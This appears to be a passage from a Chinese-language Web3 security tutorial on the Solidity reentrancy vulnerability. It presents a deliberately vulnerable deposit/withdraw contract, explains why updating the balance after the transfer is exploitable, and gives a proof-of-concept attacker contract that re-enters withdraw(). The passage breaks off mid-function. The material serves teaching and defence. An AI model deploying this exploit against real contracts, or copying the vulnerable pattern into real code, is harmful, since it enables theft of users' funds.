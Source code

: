 ### 漏洞代码示例

[reentrancy.sol](https://github.com/brycewai/Web3-Security/blob/main/vulnerability/smartContract/reentrancy.sol){:target="_blank"}  

#### 漏洞合约

```cpp
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Victim {
    mapping(address => uint256) public balanceOf; // 余额mapping

    // 存款，并更新余额
    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    // 提款，提取msg.sender的全部余额
    function withdraw() external {
        uint256 balance = balanceOf[msg.sender]; // 获取msg.sender的余额
        require(balance > 0, "Insufficient balance"); // 要求余额大于0，才进行提款操作

        // 调用call函数进行转账，将msg.sender的余额全部转到msg.sender账户里。这里有重入风险。
        (bool success,) = msg.sender.call{value: balance}("");

        require(success, "Failed to send Ether"); // 要求call调用成功，才继续执行
        balanceOf[msg.sender] = 0; // 更新余额
    }

    // 获取合约本身的余额
    function getBalanceOfContract() external view returns (uint256) {
        return address(this).balance;
    }
}
```

重入漏洞大多数发生在转账的业务场景里面，转账分为两种情况：一种是向EOA账户转账，一种是向合约转账，在合约转账的情况下会默认调用接受者的fallback函数。

这里的示例能被重入攻击的原因是有2个前提：

- 使用call.value转账，会发送全部gas，为重入循环转账提供了条件
- 账本的改变在实际转账后

#### POC合约

```cpp
contract Attack {
    Victim public victim;

    constructor(Victim _victim) {
        victim = _victim;
    }

    // 回调函数，用于重入攻击Victim合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (victim.getBalanceOfContract() >= 1 ether) {
            victim.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function beginAttack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        victim.deposit{value: 1 ether}();
```